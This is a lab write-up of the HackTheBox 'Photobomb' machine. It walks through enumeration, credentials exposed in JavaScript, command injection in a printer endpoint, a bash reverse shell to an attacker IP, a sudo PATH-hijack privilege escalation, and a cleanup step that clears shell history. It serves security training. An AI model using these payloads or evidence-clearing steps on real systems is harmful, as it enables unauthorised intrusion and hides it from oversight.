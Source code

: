 # HTB – Photobomb (Linux, Easy)

## Table of Contents
- General Info
- Objectives
- Enumeration
- Exploitation
- Initial Shell
- Privilege Escalation
- Post-Exploitation Proof
- Cleanup
- Key Takeaways
- Conclusion

---

## General Info
- **Machine name:** Photobomb  
- **Platform:** HackTheBox  
- **OS:** Linux (Ubuntu)  
- **Difficulty:** Easy  
- **Type:** Boot2Root (goal: user + root)

---

## Objectives
- Identify entry points through enumeration  
- Exploit vulnerable web functionality to gain a foothold  
- Escalate privileges to root via misconfigured sudo script  

---

## Enumeration

### Nmap Scan
Command: nmap -sC -sV -oA nmap/photobomb <target_IP>  
Result:  
- 22/tcp – OpenSSH 8.9p1 (Ubuntu 3ubuntu0.1)  
- 80/tcp – nginx 1.18.0 (Ubuntu)  

### Virtual Host
The web server expects hostname photobomb.htb.  
Added entry in /etc/hosts:  
<target_IP>    photobomb.htb  

*Figure 1 – Nmap scan results*  
![Nmap scan](01_nmap.png)

*Figure 2 – /etc/hosts modification*
![Hosts file](02_hosts.png)

---

## Exploitation

### Discovered Credentials
Viewing page source (view-source:http://photobomb.htb) revealed photobomb.js.  
Inside the code, static credentials were present:  
- Username: pH0t0  
- Password: b0Mb!  
Login URL: http://photobomb.htb/printer  

*Figure 3 – Credentials exposed in photobomb.js*
![JS credentials](04_js_creds.png)

### Command Injection
POST request to /printer is vulnerable to command injection in parameter `filetype`.

Example payload: `filetype=png;sleep 5;`  
Response time increased by ~5 seconds, confirming execution of system command. 

*Figure 4 – Burp Suite request showing command injection*
![Command injection in Burp](05_command_injection.png)

### Reverse Shell
Payload: filetype=jpg;bash -i >& /dev/tcp/<attacker_IP>/<attacker_port> 0>&1  
Listener: nc -lvnp 9001  
Result: reverse shell as user wizard.  

*Figure 5 – Reverse shell established as wizard*
![Reverse shell](05b_reverse_shell.png)

---

## Initial Shell
Stabilized with:  
python3 -c 'import pty; pty.spawn("/bin/bash")'  
export TERM=xterm  

*Figure 6 – Stabilized wizard shell*
![Stabilized shell](06_stabilized_shell.png)

---

## Privilege Escalation

### Sudo Permissions
Checked with: sudo -l  
Output: (root) SETENV: NOPASSWD: /opt/cleanup.sh  

*Figure 7 – Sudo permissions for cleanup.sh*
![Sudo permissions](07_sudo_permissions.png)

### Script Analysis
Content of /opt/cleanup.sh:  
#!/bin/bash  
. /opt/.bashrc  
cd /home/wizard/photobomb  
if [ -s log/photobomb.log ] && ! [ -L log/photobomb.log ]; then  
  /bin/cat log/photobomb.log > log/photobomb.log.old  
  /usr/bin/truncate -s0 log/photobomb.log  
fi  
find source_images -type f -name '*.jpg' -exec chown root:root {} \;  

Observation: find is called without absolute path → vulnerable to $PATH hijack.  

### Exploiting PATH Hijack
Steps:  
cd /dev/shm  
echo -e '#!/bin/bash\nbash' > find  
chmod +x find  
sudo PATH=/dev/shm:$PATH /opt/cleanup.sh  
Result: root shell obtained.  

*Figure 8 – Root shell obtained via PATH hijack*
![Root shell via PATH hijack](08_root_shell.png)

---

## Post-Exploitation Proof
User flag: cat /home/wizard/user.txt  
Root flag: cat /root/root.txt  

*Figure 9 – User flag*  
![User flag](09_user_flag.png)  
Output: `HTB{redacted}`  

*Figure 10 – Root flag*  
![Root flag](10_root_flag.png)  
Output: `HTB{redacted}`

---

## Cleanup
rm -f /dev/shm/find  
history -c  
exit  

---

## Key Takeaways
- Hidden credentials in JS can expose login details.  
- Command injection in poorly validated parameters leads directly to RCE.  
- Always enumerate sudo -l for privilege escalation opportunities.  
- $PATH hijacking is a common and dangerous misconfiguration.  

---

## Conclusion
The Photobomb machine demonstrated a straightforward attack chain:  
- Enumeration revealed a vhost and JS credentials.  
- Exploitation via command injection granted shell access as wizard.  
- Privilege escalation through sudo misconfiguration led to root.  
- Both user and root flags were successfully retrieved.  

This lab emphasizes the importance of code review, secure credential handling, and proper path usage in privileged scripts.
